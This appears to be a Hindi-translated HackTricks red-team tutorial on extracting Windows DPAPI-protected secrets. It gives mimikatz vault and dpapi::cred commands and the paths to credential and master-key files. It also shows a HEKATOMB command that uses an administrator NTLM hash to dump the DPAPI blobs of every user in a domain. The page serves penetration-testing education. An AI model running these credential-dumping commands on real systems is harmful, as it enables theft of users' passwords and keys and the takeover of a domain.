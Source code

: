 # DPAPI - Extracting Passwords

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

​​[**RootedCON**](https://www.rootedcon.com/) **स्पेन** में सबसे प्रासंगिक साइबर सुरक्षा कार्यक्रम है और **यूरोप** में सबसे महत्वपूर्ण में से एक है। **तकनीकी ज्ञान को बढ़ावा देने** के मिशन के साथ, यह कांग्रेस हर अनुशासन में प्रौद्योगिकी और साइबर सुरक्षा पेशेवरों के लिए एक उबालता हुआ बैठक बिंदु है।

{% embed url="https://www.rootedcon.com/" %}

## What is DPAPI

Data Protection API (DPAPI) मुख्य रूप से Windows ऑपरेटिंग सिस्टम के भीतर **असामान्य निजी कुंजियों के सममित एन्क्रिप्शन** के लिए उपयोग किया जाता है, जो उपयोगकर्ता या प्रणाली के रहस्यों को महत्वपूर्ण एंट्रॉपी के स्रोत के रूप में उपयोग करता है। यह दृष्टिकोण डेवलपर्स के लिए एन्क्रिप्शन को सरल बनाता है, जिससे वे उपयोगकर्ता के लॉगिन रहस्यों से निकाली गई कुंजी का उपयोग करके डेटा को एन्क्रिप्ट कर सकते हैं या, प्रणाली एन्क्रिप्शन के लिए, प्रणाली के डोमेन प्रमाणीकरण रहस्यों का उपयोग कर सकते हैं, इस प्रकार डेवलपर्स को एन्क्रिप्शन कुंजी की सुरक्षा का प्रबंधन करने की आवश्यकता को समाप्त कर देता है।

### Protected Data by DPAPI

DPAPI द्वारा संरक्षित व्यक्तिगत डेटा में शामिल हैं:

* Internet Explorer और Google Chrome के पासवर्ड और ऑटो-पूर्ण डेटा
* Outlook और Windows Mail जैसे अनुप्रयोगों के लिए ई-मेल और आंतरिक FTP खाता पासवर्ड
* साझा फ़ोल्डरों, संसाधनों, वायरलेस नेटवर्क और Windows Vault के लिए पासवर्ड, जिसमें एन्क्रिप्शन कुंजियाँ शामिल हैं
* दूरस्थ डेस्कटॉप कनेक्शनों, .NET पासपोर्ट, और विभिन्न एन्क्रिप्शन और प्रमाणीकरण उद्देश्यों के लिए निजी कुंजियों के लिए पासवर्ड
* क्रेडेंशियल प्रबंधक द्वारा प्रबंधित नेटवर्क पासवर्ड और Skype, MSN मैसेंजर, और अधिक जैसे अनुप्रयोगों में व्यक्तिगत डेटा

## List Vault
```bash
# From cmd
vaultcmd /listcreds:"Windows Credentials" /all

# From mimikatz
mimikatz vault::list
```
## Credential Files

The **credentials files protected** could be located in:
```
dir /a:h C:\Users\username\AppData\Local\Microsoft\Credentials\
dir /a:h C:\Users\username\AppData\Roaming\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\
```
mimikatz `dpapi::cred` का उपयोग करके क्रेडेंशियल्स जानकारी प्राप्त करें, प्रतिक्रिया में आप दिलचस्प जानकारी पा सकते हैं जैसे कि एन्क्रिप्टेड डेटा और guidMasterKey।
```bash
mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\28350839752B38B238E5D56FDD7891A7

[...]
guidMasterKey      : {3e90dd9e-f901-40a1-b691-84d7f647b8fe}
[...]
pbData             : b8f619[...snip...]b493fe
[..]
```
आप **mimikatz module** `dpapi::cred` का उपयोग उचित `/masterkey` के साथ डिक्रिप्ट करने के लिए कर सकते हैं:
```
dpapi::cred /in:C:\path\to\encrypted\file /masterkey:<MASTERKEY>
```
## Master Keys

DPAPI कुंजी जो उपयोगकर्ता के RSA कुंजी को एन्क्रिप्ट करने के लिए उपयोग की जाती है, `%APPDATA%\Microsoft\Protect\{SID}` निर्देशिका के तहत संग्रहीत होती है, जहाँ {SID} उस उपयोगकर्ता का [**सुरक्षा पहचानकर्ता**](https://en.wikipedia.org/wiki/Security\_Identifier) है। **DPAPI कुंजी उसी फ़ाइल में संग्रहीत होती है जिसमें उपयोगकर्ता की निजी कुंजी की सुरक्षा करने वाला मास्टर कुंजी होती है**। यह आमतौर पर 64 बाइट्स का यादृच्छिक डेटा होता है। (ध्यान दें कि यह निर्देशिका सुरक्षित है इसलिए आप इसे `dir` का उपयोग करके cmd से सूचीबद्ध नहीं कर सकते, लेकिन आप इसे PS से सूचीबद्ध कर सकते हैं)।
```bash
Get-ChildItem C:\Users\USER\AppData\Roaming\Microsoft\Protect\
Get-ChildItem C:\Users\USER\AppData\Local\Microsoft\Protect
Get-ChildItem -Hidden C:\Users\USER\AppData\Roaming\Microsoft\Protect\
Get-ChildItem -Hidden C:\Users\USER\AppData\Local\Microsoft\Protect\
Get-ChildItem -Hidden C:\Users\USER\AppData\Roaming\Microsoft\Protect\{SID}
Get-ChildItem -Hidden C:\Users\USER\AppData\Local\Microsoft\Protect\{SID}
```
यह एक उपयोगकर्ता के कई मास्टर कुंजी कैसे दिखेंगी:

![](<../../.gitbook/assets/image (1121).png>)

आमतौर पर **प्रत्येक मास्टर कुंजी एक एन्क्रिप्टेड सममित कुंजी होती है जो अन्य सामग्री को डिक्रिप्ट कर सकती है**। इसलिए, **एन्क्रिप्टेड मास्टर कुंजी को निकालना** दिलचस्प है ताकि बाद में **उसके साथ एन्क्रिप्ट की गई अन्य सामग्री को डिक्रिप्ट किया जा सके**।

### मास्टर कुंजी निकालें और डिक्रिप्ट करें

मास्टर कुंजी निकालने और उसे डिक्रिप्ट करने के उदाहरण के लिए [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++#extracting-dpapi-backup-keys-with-domain-admin) पोस्ट देखें।

## SharpDPAPI

[SharpDPAPI](https://github.com/GhostPack/SharpDPAPI#sharpdpapi-1) कुछ DPAPI कार्यक्षमता का C# पोर्ट है जो [@gentilkiwi](https://twitter.com/gentilkiwi) के [Mimikatz](https://github.com/gentilkiwi/mimikatz/) प्रोजेक्ट से है।

## HEKATOMB

[**HEKATOMB**](https://github.com/Processus-Thief/HEKATOMB) एक उपकरण है जो LDAP निर्देशिका से सभी उपयोगकर्ताओं और कंप्यूटरों को निकालने और RPC के माध्यम से डोमेन नियंत्रक बैकअप कुंजी निकालने को स्वचालित करता है। स्क्रिप्ट फिर सभी कंप्यूटरों के आईपी पते को हल करेगी और सभी कंप्यूटरों पर smbclient करेगी ताकि सभी उपयोगकर्ताओं के सभी DPAPI ब्लॉब्स को पुनः प्राप्त किया जा सके और सब कुछ डोमेन बैकअप कुंजी के साथ डिक्रिप्ट किया जा सके।

`python3 hekatomb.py -hashes :ed0052e5a66b1c8e942cc9481a50d56 DOMAIN.local/administrator@10.0.0.1 -debug -dnstcp`

LDAP से निकाले गए कंप्यूटरों की सूची के साथ आप हर उप नेटवर्क को ढूंढ सकते हैं, भले ही आप उन्हें नहीं जानते हों!

"क्योंकि डोमेन एडमिन अधिकार पर्याप्त नहीं हैं। सभी को हैक करें।"

## DonPAPI

[**DonPAPI**](https://github.com/login-securite/DonPAPI) स्वचालित रूप से DPAPI द्वारा संरक्षित रहस्यों को डंप कर सकता है।

## संदर्भ

* [https://www.passcape.com/index.php?section=docsys\&cmd=details\&id=28#13](https://www.passcape.com/index.php?section=docsys\&cmd=details\&id=28#13)
* [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++#using-dpapis-to-encrypt-decrypt-data-in-c)

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

[**RootedCON**](https://www.rootedcon.com/) **स्पेन** में सबसे प्रासंगिक साइबर सुरक्षा कार्यक्रम है और **यूरोप** में सबसे महत्वपूर्ण में से एक है। **तकनीकी ज्ञान को बढ़ावा देने के मिशन** के साथ, यह कांग्रेस हर अनुशासन में प्रौद्योगिकी और साइबर सुरक्षा पेशेवरों के लिए एक उबालता हुआ बैठक बिंदु है।

{% embed url="https://www.rootedcon.com/" %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर हमें फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।**

</details>
{% endhint %}
